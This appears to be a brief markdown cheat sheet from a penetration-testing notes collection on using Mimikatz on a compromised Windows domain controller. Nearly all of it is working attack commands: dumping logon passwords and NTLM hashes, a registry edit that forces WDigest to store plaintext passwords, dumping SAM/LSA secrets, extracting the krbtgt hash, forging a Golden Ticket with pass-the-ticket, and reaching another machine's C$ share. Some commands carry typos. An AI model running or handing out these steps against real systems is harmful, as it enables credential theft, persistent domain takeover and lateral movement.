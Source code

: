 # Mimikatz
Can steal credentails and generate kerberos tickets, dump creds in memory etc.
https://github.com/ParrotSec/mimikatz

## Usage
This assumes you have gotten on a domain controller
```
mimikatz.exe
```
```
privilege::debug
```
### Check for passwords
```
sekurlsa::logonpasswords
```
Once you run that check the NTLM hash to see if you can pass the hash

Turn on wdigest to see if anyone logson on and we can get plain text passwords
first check
```
sekurlsa::wdigest
```
if its "null"
then run the following
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
Next time they login the passwords will be in plain text.

### Get the SAM/LSA
```
lsadump::sam
lsadump::sam /patch
lsadump::lsa /patch
```
### Get NTDS
```
ntds.dit
```

## Generate Golden Ticket
replace name of user
```
lsadump::lsa /inject /name:krbtgt
```
Get SID, NTLM hash as well and copy somewhere

```
kerberos::golden /User::Administrator /domain:marvel.local /sid:<sid> /krbtgt:<hash> /id:500 /ptt
```
```
misc:cmd
```
on new cmd
```
dir \\Workstation-1\c$
```
